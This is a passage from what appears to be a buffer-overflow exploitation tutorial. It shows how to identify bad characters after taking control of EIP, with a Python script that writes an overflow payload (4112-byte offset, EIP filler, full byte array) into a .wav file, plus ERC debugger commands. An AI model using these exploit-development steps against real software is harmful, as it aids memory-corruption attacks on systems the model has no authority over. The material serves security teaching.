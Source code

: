 ## Identifying Bad Characters : 

Before we start to utilize the fact that we can control the `EIP` and subvert the program's execution flow, we need to determine any characters we should avoid using in our payload. For example, a very common bad character is a null byte `0x00`.

To identify bad characters, we have to send all characters after filling the `EIP` address, which is after `4112` + `4` bytes. We then check whether any of the characters got removed by the program or if our input got truncated prematurely after a specific character.

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```

```python
def bad_chars():
    all_chars = bytes([
        0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08
		...SNIP...
```


Or

```cmd-session
ERC --bytearray
```

Once we have the value of `ESP`, we can use `ERC --compare` and give it the `ESP` address and the location of the `.bin` file that contains all characters, as follows:

```cmd
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

```cmd-session
ERC --bytearray -bytes 0x00
```

## Finding a Return Instruction : 
